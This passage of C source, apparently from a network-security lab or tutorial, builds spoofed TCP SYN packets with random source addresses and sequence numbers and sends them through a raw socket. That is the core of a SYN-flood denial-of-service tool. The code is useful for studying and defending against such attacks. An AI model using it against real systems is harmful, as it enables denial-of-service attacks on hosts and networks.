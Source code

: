   ```c
          tcp->tcp_dport = htons(DEST_PORT);
          tcp->tcp_seq   = rand(); // Use random sequence #
          tcp->tcp_offx2 = 0x50;
          tcp->tcp_flags = TH_SYN; // Enable the SYN bit
          tcp->tcp_win   = htons(20000);
          tcp->tcp_sum   = 0;
  
          /*********************************************************
            Step 2: Fill in the IP header.
          ********************************************************/
          ip->iph_ver = 4;   // Version (IPV4)
          ip->iph_ihl = 5;   // Header length
          ip->iph_ttl = 50;  // Time to live
          ip->iph_sourceip.s_addr = rand(); // Use a random IP address
          ip->iph_destip.s_addr = inet_addr(DEST_IP);
          ip->iph_protocol = IPPROTO_TCP; // The value is 6.
          ip->iph_len = htons(sizeof(struct ipheader) +
                             sizeof(struct tcpheader));
  
          // Calculate tcp checksum
          tcp->tcp_sum = calculate_tcp_checksum(ip);
  
          /*********************************************************
           Step 3: Finally, send the spoofed packet
          ********************************************************/
          send_raw_ip_packet(ip);
      }
  
      return 0;
  }
  
  
  /*************************************************************
    Given an IP packet, send it out using a raw socket.
  **************************************************************/
  void send_raw_ip_packet(struct ipheader* ip)
  {
      struct sockaddr_in dest_info;
      int enable = 1;
  
      // Step 1: Create a raw network socket.
      int sock = socket(AF_INET, SOCK_RAW, IPPROTO_RAW);
  
      // Step 2: Set socket option.
      setsockopt(sock, IPPROTO_IP, IP_HDRINCL,
                       &enable, sizeof(enable));
  
      // Step 3: Provide needed information about destination.
      dest_info.sin_family = AF_INET;
      dest_info.sin_addr = ip->iph_destip;
  
      // Step 4: Send the packet out.
      sendto(sock, ip, ntohs(ip->iph_len), 0,
             (struct sockaddr *)&dest_info, sizeof(dest_info));
      close(sock);
  }
  
  
  unsigned short in_cksum (unsigned short *buf, int length)
  {
     unsigned short *w = buf;
     int nleft = length;
     int sum = 0;
  ```